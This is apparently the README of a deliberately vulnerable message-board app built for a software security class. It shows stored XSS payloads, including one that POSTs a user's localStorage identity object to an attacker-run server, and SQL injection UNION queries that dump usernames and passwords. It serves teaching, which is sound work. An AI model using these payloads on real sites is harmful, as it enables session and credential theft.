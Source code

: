 This is a simple web app that I build for a Software Security class peresentation. It is vulnerable to cross-site scripting attacks, as well as SQL injection attacks. The app is a simple ‘message board’, where users are able to log in and see what other users have posted, and can post their own messages. Users are also able to search for specific messages that have been posted in the past using the search functionality.

When a user logs in, they can refresh the page are able to remain logged in. This is accomplished by the user of the browsers built-in ‘local storage’ functionality. When the user first logs in, an identifying object is saved in the browser’s local storage. When the app is refreshed, it checks to see if there is an identifying object saved in local storage, and if there is, it retrieves the user’s information.

## XSS Attack
The application is vulnerable to XSS attacks because it is not sanitizing the input when a user creates a new message. This is evident when the user creates a message that includes HTML tags, such as the ```<b>``` or ```<i>``` tag. This will change the way application renders the message.
Using this information, as well as the fact that the user remains logged into the application across page refreshes, we can build an attack to steal other users identifying information. If an attacker creates the following message with the content below, they will be able to see what local storage keys are currently in use by the application. Note that in order for this script to run, the attacker must refresh the page, since the browser will not execute script tags that get appended to the document once it has already been rendered.

```
<script>console.log(Object.keys(localStorage))</script>
```

That attacker will see in the console that the only key being used is ‘user’. Creating a new message with the following content will reveal the contents of local storage.

```
<script>console.log(JSON.parse(localStorage.getItem('user')))</script>
```

Now the attacker can see their identifying information, but they really want other user’s information. The attacker can set up their own server that listens for requests, and then create a message with a script that will send the currently logged in user’s information to the attacker’s server. The contents of the message would be similar to the following script.


```
<script>
let params = {
	headers: {
		'content-type': 'application/json; charset=UTF-8'
	},
	body: JSON.stringify({ content: localStorage.getItem('user') }),
	method: 'POST',
}
fetch('http://127.0.0.1:3001/victim', params)
</script>
```

Now whenever any user logs in, a request will be sent to the attacker’s server that contains the currently logged in user’s information.

There are multiple ways to fix this issue. For my presentation, all I had to do was change the syntax in one of my rendered view files to escape all HTML tag characters.

## SQL Injection
As previously mentioned, the application also has a search functionality. An attacker can input the following search values into the search box to accomplish the described actions.

```
';--
```
Action: Show that the application is vulnerable to SQL injection.

```
' UNION (SELECT 1, 2, 3 FROM dual); --
```
Action: Confirm that database is MySQL, and that the injection strategy will work.

```
' UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.tables); --
```
Action: Get all table names and their associated schemas.

```
' UNION (SELECT COLUMN_NAME, 2, 3 FROM information_schema.columns WHERE TABLE_NAME = 'users'); --
```
Action: Get all column names for the table named ‘users’.

```
' UNION (SELECT username, password, first_name FROM users); --
```
Action: Get all usernames, passwords, and first names, from the users table.
